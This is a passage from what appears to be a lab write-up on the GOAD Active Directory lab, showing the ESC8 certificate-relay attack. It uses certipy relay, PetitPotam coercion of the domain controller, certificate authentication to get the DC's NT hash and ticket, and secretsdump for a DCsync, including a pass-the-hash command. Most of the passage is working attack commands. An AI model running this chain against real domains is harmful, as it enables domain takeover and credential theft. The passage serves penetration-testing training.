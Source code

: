 ```shell
export KRB5CCNAME=/workspace/esc8/meereen.ccache
secretsdump -k -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local
```

![esc8_dcsync.png](/assets/blog/GOAD/esc8_dcsync.png)

## ESC8 - with certipy

Oliver Lyak as done a wonderful job on the ADCS attack tool [certipy](https://github.com/ly4k/Certipy) to automatise a lots of things.

Let's do the same attack with certipy, setup the listener :

```bash
certipy relay -ca 192.168.56.23 -template DomainController -target http://192.168.56.23
```

- trig the coerce just like we did before with petitpotam

```bash
petitpotam.py 192.168.56.1 meereen.essos.local
```

- Now we got the certificate so we can get the NT hash of the DC and also the TGT with the command :

```bash
certipy auth -pfx meereen.pfx -dc-ip 192.168.56.12 
```

- And we can launch a DCsync with secretsdump and the ticket we get

```bash
export KRB5CCNAME=/workspace/esc8/meereen.ccache
secretsdump -k -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local

# or with the hash

secretsdump -hashes ':39d964a01c61c19fe36c71627d7ab56c' -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local
```
